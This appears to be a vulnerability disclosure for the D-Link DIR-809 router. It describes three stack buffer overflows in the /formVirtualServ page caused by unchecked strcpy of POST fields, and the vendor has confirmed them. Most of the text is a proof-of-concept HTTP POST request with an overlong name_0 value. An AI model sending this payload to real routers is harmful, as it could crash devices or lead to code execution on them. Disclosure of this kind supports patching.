


# D-Link DIR809 Vulnerability

The Vulnerability is in page `/formVirtualServ` which influences the latest version of this router OS. 

The firmware version is [DIR-809Ax_FW1.12WWB03_20190410](http://www.dlinktw.com.tw/techsupport/ProductInfo.aspx?m=DIR-809) 

## Progress

- Confirmed by vendor. 


## Vulnerability description

In the function `FUN_8004776c` ( page `/formVirtualServ` ), we find three stack overflow vulnerabilities which are of the same type. Each vulnerability allows attackers to execute arbitrary code on system via a crafted post request. 

Here is the description of the first vulnerability, 

1. The `get_var` function extracts user input from the a http request. For example, the code below will extract the value of a key of format `"name_%d"` in the http post request which is completely under the attacker's control. 
2. The string `pcVar2` obtained from user is copied onto the stack using `strcpy` without checking its length. So we can make the stack buffer overflow in `local_f8`. 



The second and third vulnerabilities follow the same paradigm as the first. Two figures below will illustrate them. 




## PoC

``` 
POST /formVirtualServ.htm HTTP/1.1
Host: 192.168.0.1
Content-Length: 4983
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://192.168.0.1
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/87.0.4280.66 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Referer: http://192.168.0.1/Advanced/Virtual_Server.asp?t=1620556982214
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: uid=sVlZzC4RHx
Connection: close

settingsChanged=1&curTime=1620557025736&HNAP_AUTH=B57888CD9D38113835E437CE4735DFC4+1620557025&submit-url=%2FAdvanced%2FVirtual_Server.asp&index=1&enabled_0=0&used_0=0&name_0=1231231231233*0x200&default_virtual_servers_0=-1&public_port_0=10000&public_port_to_0=10000&ip_0=192.168.0.34&computer_list_ipaddr_select_0=-1&private_port_0=10000&hidden_private_port_to_0=10000&protocol_0=1&index=2&enabled_1=0&used_1=0&name_1=&default_virtual_servers_1=-1&public_port_1=&public_port_to_1=&ip_1=&computer_list_ipaddr_select_1=-1&private_port_1=&hidden_private_port_to_1=&protocol_1=1&index=3&enabled_2=0&used_2=0&name_2=&default_virtual_servers_2=-1&public_port_2=&public_port_to_2=&ip_2=&computer_list_ipaddr_select_2=-1&private_port_2=&hidden_private_port_to_2=&protocol_2=1&index=4&enabled_3=0&used_3=0&name_3=&default_virtual_servers_3=-1&public_port_3=&public_port_to_3=&ip_3=&computer_list_ipaddr_select_3=-1&private_port_3=&hidden_private_port_to_3=&protocol_3=1&index=5&enabled_4=0&used_4=0&name_4=&default_virtual_servers_4=-1&public_port_4=&public_port_to_4=&ip_4=&computer_list_ipaddr_select_4=-1&private_port_4=&hidden_private_port_to_4=&protocol_4=1&index=6&enabled_5=0&used_5=0&name_5=&default_virtual_servers_5=-1&public_port_5=&public_port_to_5=&ip_5=&computer_list_ipaddr_select_5=-1&private_port_5=&hidden_private_port_to_5=&protocol_5=1&index=7&enabled_6=0&used_6=0&name_6=&default_virtual_servers_6=-1&public_port_6=&public_port_to_6=&ip_6=&computer_list_ipaddr_select_6=-1&private_port_6=&hidden_private_port_to_6=&protocol_6=1&index=8&enabled_7=0&used_7=0&name_7=&default_virtual_servers_7=-1&public_port_7=&public_port_to_7=&ip_7=&computer_list_ipaddr_select_7=-1&private_port_7=&hidden_private_port_to_7=&protocol_7=1&index=9&enabled_8=0&used_8=0&name_8=&default_virtual_servers_8=-1&public_port_8=&public_port_to_8=&ip_8=&computer_list_ipaddr_select_8=-1&private_port_8=&hidden_private_port_to_8=&protocol_8=1&index=10&enabled_9=0&used_9=0&name_9=&default_virtual_servers_9=-1&public_port_9=&public_port_to_9=&ip_9=&computer_list_ipaddr_select_9=-1&private_port_9=&hidden_private_port_to_9=&protocol_9=1&index=11&enabled_10=0&used_10=0&name_10=&default_virtual_servers_10=-1&public_port_10=&public_port_to_10=&ip_10=&computer_list_ipaddr_select_10=-1&private_port_10=&hidden_private_port_to_10=&protocol_10=1&index=12&enabled_11=0&used_11=0&name_11=&default_virtual_servers_11=-1&public_port_11=&public_port_to_11=&ip_11=&computer_list_ipaddr_select_11=-1&private_port_11=&hidden_private_port_to_11=&protocol_11=1&index=13&enabled_12=0&used_12=0&name_12=&default_virtual_servers_12=-1&public_port_12=&public_port_to_12=&ip_12=&computer_list_ipaddr_select_12=-1&private_port_12=&hidden_private_port_to_12=&protocol_12=1&index=14&enabled_13=0&used_13=0&name_13=&default_virtual_servers_13=-1&public_port_13=&public_port_to_13=&ip_13=&computer_list_ipaddr_select_13=-1&private_port_13=&hidden_private_port_to_13=&protocol_13=1&index=15&enabled_14=0&used_14=0&name_14=&default_virtual_servers_14=-1&public_port_14=&public_port_to_14=&ip_14=&computer_list_ipaddr_select_14=-1&private_port_14=&hidden_private_port_to_14=&protocol_14=1&index=16&enabled_15=0&used_15=0&name_15=&default_virtual_servers_15=-1&public_port_15=&public_port_to_15=&ip_15=&computer_list_ipaddr_select_15=-1&private_port_15=&hidden_private_port_to_15=&protocol_15=1&index=17&enabled_16=0&used_16=0&name_16=&default_virtual_servers_16=-1&public_port_16=&public_port_to_16=&ip_16=&computer_list_ipaddr_select_16=-1&private_port_16=&hidden_private_port_to_16=&protocol_16=1&index=18&enabled_17=0&used_17=0&name_17=&default_virtual_servers_17=-1&public_port_17=&public_port_to_17=&ip_17=&computer_list_ipaddr_select_17=-1&private_port_17=&hidden_private_port_to_17=&protocol_17=1&index=19&enabled_18=0&used_18=0&name_18=&default_virtual_servers_18=-1&public_port_18=&public_port_to_18=&ip_18=&computer_list_ipaddr_select_18=-1&private_port_18=&hidden_private_port_to_18=&protocol_18=1&index=20&enabled_19=0&used_19=0&name_19=&default_virtual_servers_19=-1&public_port_19=&public_port_to_19=&ip_19=&computer_list_ipaddr_select_19=-1&private_port_19=&hidden_private_port_to_19=&protocol_19=1&index=21&enabled_20=0&used_20=0&name_20=&default_virtual_servers_20=-1&public_port_20=&public_port_to_20=&ip_20=&computer_list_ipaddr_select_20=-1&private_port_20=&hidden_private_port_to_20=&protocol_20=1&index=22&enabled_21=0&used_21=0&name_21=&default_virtual_servers_21=-1&public_port_21=&public_port_to_21=&ip_21=&computer_list_ipaddr_select_21=-1&private_port_21=&hidden_private_port_to_21=&protocol_21=1&index=23&enabled_22=0&used_22=0&name_22=&default_virtual_servers_22=-1&public_port_22=&public_port_to_22=&ip_22=&computer_list_ipaddr_select_22=-1&private_port_22=&hidden_private_port_to_22=&protocol_22=1&index=24&enabled_23=0&used_23=0&name_23=&default_virtual_servers_23=-1&public_port_23=&public_port_to_23=&ip_23=&computer_list_ipaddr_select_23=-1&private_port_23=&hidden_private_port_to_23=&protocol_23=1
```


